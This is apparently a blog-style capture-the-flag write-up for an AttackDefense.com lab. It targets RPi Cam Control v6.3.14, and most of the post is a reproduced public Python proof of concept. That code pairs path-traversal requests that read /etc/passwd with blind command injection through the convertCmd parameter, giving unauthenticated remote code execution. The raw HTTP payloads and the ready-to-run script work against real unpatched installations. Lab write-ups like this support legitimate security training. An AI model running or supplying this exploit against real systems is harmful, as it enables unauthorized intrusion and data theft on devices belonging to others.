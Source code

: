 ```yaml
---
layout: post
title: AttackDefense.com [RCE] - RPi Cam Control
date: 2018-10-28 18:27 -0300
categories: [AttackDefense.com, ctf, writeups, RCE]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find a remote code injection attack to run arbitrary commands on the server.

A version of RPi Cam Control is vulnerable to a remote code execution attack.

Objective: Your task is to find and exploit this vulnerability.

Level difficulty: Easy

Category: Real World Webapps > Remote Code Execution

### Solution

On this challenge, I received unauthenticated access to a camera control interface presenting multiple actions buttons.

![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-28 23-31-29.png)

I decided to use @GetSploitBot for Telegram in order to obtain exploits for the application version ```RPi Cam Control v6.3.14```.

![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-28 23-34-28.png)

![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-28 23-37-17.png)

- I got the exploit code from [https://vulners.com/zdt/1337DAY-ID-28478](https://vulners.com/zdt/1337DAY-ID-28478)

```python
#####
# Exploit Title: RPi Cam Control <= v6.3.14 (RCE) Multiple Vulnerabilities - preview.php
# Date: 16/08/2017
# Exploit Author: Alexander Korznikov
# Vendor Homepage: https://github.com/silvanmelchior/RPi_Cam_Web_Interface
# Software Link: https://github.com/silvanmelchior/RPi_Cam_Web_Interface
# Version: <= v6.3.14
# Date 16/08/2017
#
# A web interface for the RPi Cam
# Vendor github: https://github.com/silvanmelchior/RPi_Cam_Web_Interface
#
# Bug Discovered by Alexander Korznikov:
#     www.exploit-db.com/author/?a=8722
#     www.linkedin.com/in/nopernik
#     www.korznikov.com
#
# RPi Cam Control <= v6.3.14 is vulnerable to Local File Read and Blind Command Injection.
#
#
# Local File Read (get /etc/passwd file):
# ----------------
# POST /preview.php HTTP/1.1
# Host: 127.0.0.1
# Content-Type: application/x-www-form-urlencoded
# Connection: close
# Content-Length: 80
#
# download1=../../../../../../../../../../../../../../../../etc/passwd.v0000.t
#
#
# Blind Command Injection:
# ------------------
# POST /preview.php HTTP/1.1
# Host: 127.0.0.1
# Content-Type: application/x-www-form-urlencoded
# Connection: close
# Content-Length: 52
#
# convert=none&convertCmd=$(COMMAND_TO_EXECUTE)
#
#
# Blind Command Injection can be used with Local File Read to properly get the output of injected command.
#
# Proof of Concept Code:
#####
 
#!/usr/bin/python
 
import requests
import sys
if not len(sys.argv[2:]):
   print "Usage: RPi-Cam-Control-RCE.py 127.0.0.1 'cat /etc/passwd'"
   exit(1)
 
def GET(target, rfile):
   res = requests.post("http://%s/preview.php" % target,
        headers={"Content-Type": "application/x-www-form-urlencoded", "Connection": "close"},
        data={"download1": "../../../../../../../../../../../../../../../../{}.v0000.t".format(rfile)})
   return res.content
 
def RCE(target, command):
   requests.post("http://%s/preview.php" % target,
        headers={"Content-Type": "application/x-www-form-urlencoded", "Connection": "close"},
        data={"convert": "none", "convertCmd": "$(%s > /tmp/output.txt)" % command})
   return GET(target,'/tmp/output.txt')
 
target = sys.argv[1]
command = sys.argv[2]
 
print RCE(target,command)

#  0day.today [2018-01-01]  #
```

Exploit usage example:

![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-28 23-42-52.png)

![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-28 23-43-16.png)

![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-29 23-53-43.png)
